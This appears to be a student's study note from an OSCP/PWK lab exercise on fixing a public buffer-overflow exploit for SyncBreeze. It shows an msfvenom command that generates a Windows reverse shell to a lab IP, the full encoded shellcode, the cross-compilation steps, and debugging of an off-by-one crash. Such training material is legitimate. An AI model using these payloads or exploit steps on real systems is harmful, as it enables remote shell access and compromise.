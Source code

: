 15.1.6.1

# 15.1.6.1
## 15.1.6.1.1. Generate a reverse shell payload using msfvenom while taking into account the bad characters of our exploit.

Generate our own payload (the bad characters were discovered during our previous working exploit)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 exitfunc=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with Encoding failed due to a bad character (index=51, char=0x0d)
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xfa\x97\x8e\xc9\x83\xee\xfc\xe2\xf4\x06\x7f\x0c\xc9\xfa\x97"
"\xee\x40\x1f\xa6\x4e\xad\x71\xc7\xbe\x42\xa8\x9b\x05\x9b\xee"
"\x1c\xfc\xe1\xf5\x20\xc4\xef\xcb\x68\x22\xf5\x9b\xeb\x8c\xe5"
"\xda\x56\x41\xc4\xfb\x50\x6c\x3b\xa8\xc0\x05\x9b\xea\x1c\xc4"
"\xf5\x71\xdb\x9f\xb1\x19\xdf\x8f\x18\xab\x1c\xd7\xe9\xfb\x44"
"\x05\x80\xe2\x74\xb4\x80\x71\xa3\x05\xc8\x2c\xa6\x71\x65\x3b"
"\x58\x83\xc8\x3d\xaf\x6e\xbc\x0c\x94\xf3\x31\xc1\xea\xaa\xbc"
"\x1e\xcf\x05\x91\xde\x96\x5d\xaf\x71\x9b\xc5\x42\xa2\x8b\x8f"
"\x1a\x71\x93\x05\xc8\x2a\x1e\xca\xed\xde\xcc\xd5\xa8\xa3\xcd"
"\xdf\x36\x1a\xc8\xd1\x93\x71\x85\x65\x44\xa7\xff\xbd\xfb\xfa"
"\x97\xe6\xbe\x89\xa5\xd1\x9d\x92\xdb\xf9\xef\xfd\x68\x5b\x71"
"\x6a\x96\x8e\xc9\xd3\x53\xda\x99\x92\xbe\x0e\xa2\xfa\x68\x5b"
"\x99\xaa\xc7\xde\x89\xaa\xd7\xde\xa1\x10\x98\x51\x29\x05\x42"
"\x19\xa3\xff\xff\x4e\x61\x8d\x41\xe6\xcb\xfa\x96\x35\x40\x1c"
"\xfd\x9e\x9f\xad\xff\x17\x6c\x8e\xf6\x71\x1c\x7f\x57\xfa\xc5"
"\x05\xd9\x86\xbc\x16\xff\x7e\x7c\x58\xc1\x71\x1c\x92\xf4\xe3"
"\xad\xfa\x1e\x6d\x9e\xad\xc0\xbf\x3f\x90\x85\xd7\x9f\x18\x6a"
"\xe8\x0e\xbe\xb3\xb2\xc8\xfb\x1a\xca\xed\xea\x51\x8e\x8d\xae"
"\xc7\xd8\x9f\xac\xd1\xd8\x87\xac\xc1\xdd\x9f\x92\xee\x42\xf6"
"\x7c\x68\x5b\x40\x1a\xd9\xd8\x8f\x05\xa7\xe6\xc1\x7d\x8a\xee"
"\x36\x2f\x2c\x6e\xd4\xd0\x9d\xe6\x6f\x6f\x2a\x13\x36\x2f\xab"
"\x88\xb5\xf0\x17\x75\x29\x8f\x92\x35\x8e\xe9\xe5\xe1\xa3\xfa"
"\xc4\x71\x1c";
```

## 15.1.6.1.2. Replace the original payload with the newly generated one.
Here is the replaced payload
![068a31d07e4d8642bd86dd3cb2297c4f.png](:/066ea56e6a3144568467825644fac782)


## 15.1.6.1.3. Attach the debugger to the target process and set a breakpoint at the return address instruction.

Note the breakpoint at 0x10090c83
![c5c70c9956d39ffaecfa696699fa6c48.png](:/7d57210f4de04f768e4aad55a7d61c72)


## 15.1.6.1.4. Compile the exploit and run it. Did you hit the breakpoint?

It compiles without error
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ ls -lah
total 2.5M
drwxr-xr-x  2 kali kali 4.0K Sep 26 17:33 .
drwxr-xr-x 12 kali kali 4.0K Sep 26 14:25 ..
-rw-r--r--  1 kali kali 4.9K Sep 26 17:28 42341.c
-rw-r--r--  1 kali kali 2.2M Sep 26 16:44 libspp.dll
-rwxr-xr-x  1 kali kali 287K Sep 26 17:33 syncbreeze_exploit.exe
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ 
```

However, we do not hit the breakpoint 0x10090c83. Instead it crashes at 0x9010090c, which is also the EIP register.
![f41f89bf3d3b67ba8b53104a12e095d0.png](:/37c3d6b39d19475c9833569d3969d25f)

What happened? Inspect the stack window, you'll see we're off by one byte. Look at 0x01ab7450 and 0x01ab7454.
![33dcdac435c7535a217d5104eb7965c8.png](:/2b070c1784a84ac885c0b2aeecddc6f8)








id: f5c666b9a8ec4131b72415f1c99cb0ef
parent_id: 9a04a7bd83e14f0c94a95d18efa2053f
created_time: 2020-09-26T18:15:20.058Z
updated_time: 2020-09-26T21:46:12.328Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-26T18:15:20.058Z
user_updated_time: 2020-09-26T21:46:12.328Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1